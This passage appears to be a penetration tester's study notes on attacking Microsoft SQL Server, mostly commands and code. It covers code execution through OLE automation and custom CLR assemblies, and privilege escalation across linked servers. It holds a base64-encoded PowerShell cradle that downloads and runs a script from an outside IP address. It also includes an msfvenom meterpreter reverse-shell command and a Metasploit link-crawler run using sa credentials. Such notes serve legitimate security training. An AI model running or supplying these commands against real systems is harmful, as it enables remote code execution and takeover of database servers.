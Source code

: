                 //uses Object Linking and Embedding (OLE) and Wscript
                //blind execution - results aren't returned
                //Shell example:
                    pwsh
                        $text = "(New-Object System.Net.WebClient).DownloadString('http://192.168.45.210/run.txt') | IEX"
                        $bytes = [System.Text.Encoding]::Unicode.GetBytes($text)
                        $EncodedText = [Convert]::ToBase64String($bytes)
                        $EncodedText
                    "DECLARE @myshell INT; EXEC sp_oacreate 'wscript.shell', @myshell OUTPUT; EXEC sp_oamethod @myshell, 'run', null, 'powershell -enc ...';";
                    //msfvenom -p windows/x64/meterpreter/reverse_https LHOST=tun0 LPORT=443 EXITFUNC=thread -f ps1
            -Method 3: Custom Assemblies:
                //importing a managed DLL and calling RCE methods - requires database to have TRUSTWORTHY property set
                cmdExec.dll
                //can import dll from disk (or smb if 2016 or earlier) - but better method is putting hex string of file contents directly in query
                //if running multiple times, requires drop procedure & drop assembly first
                //hex converter:
                    $assemblyFile = "\\192.168.45.210\visualstudio\SQL\CustomSQLRCEAssembly\bin\x64\Release\cmdExec.dll"
                    $stringBuilder = New-Object -Type System.Text.StringBuilder 
                    $fileStream = [IO.File]::OpenRead($assemblyFile)
                    while (($byte = $fileStream.ReadByte()) -gt -1) {
                    $stringBuilder.Append($byte.ToString("X2")) | Out-Null
                    }
                    $stringBuilder.ToString() -join ""

    //Linked SQL Servers:
            ***links might only be executable by certain user accounts!
            //execution context can be dynamic or static (allowing for privesc); not bidirectional by default
            //Step 1: check linked servers with sp_linkedserver (nonpriv)
            //Step 2: perform query on linked server - ex. select v from openquery("dc01", 'select @@version as v');
                //config statements:  ex. EXEC ('sp_configure ''Ole Automation Procedures'', 1; RECONFIGURE;') AT DC01
            //default database is 'master'; default with TRUSTWORTHY property enabled is 'msdb'
        ****Check for linked servers from the linked server (see if it links back to you) - if so, check user and use for privesc!
            EXEC ('sp_linkedservers') AT DC01
            select mylogin from openquery("dc01", 'select mylogin from openquery("appsrv01", ''select SYSTEM_USER as mylogin'')')
            EXEC ('EXEC (''sp_configure ''''show advanced options'''', 1; reconfigure;'') AT appsrv01') AT dc01
        //Link crawling w/ MSF:
            msf > use exploit/windows/mssql/mssql_linkcrawler
            msf exploit(windows/mssql/mssql_linkcrawler) > set RHOSTS 192.168.1.11
            msf exploit(windows/mssql/mssql_linkcrawler) > set USERNAME sa
            msf exploit(windows/mssql/mssql_linkcrawler) > set PASSWORD Passw0rd!
            msf exploit(windows/mssql/mssql_linkcrawler) > set DEPLOY true
            msf exploit(windows/mssql/mssql_linkcrawler) > set VERBOSE true
            msf exploit(windows/mssql/mssql_linkcrawler) > run
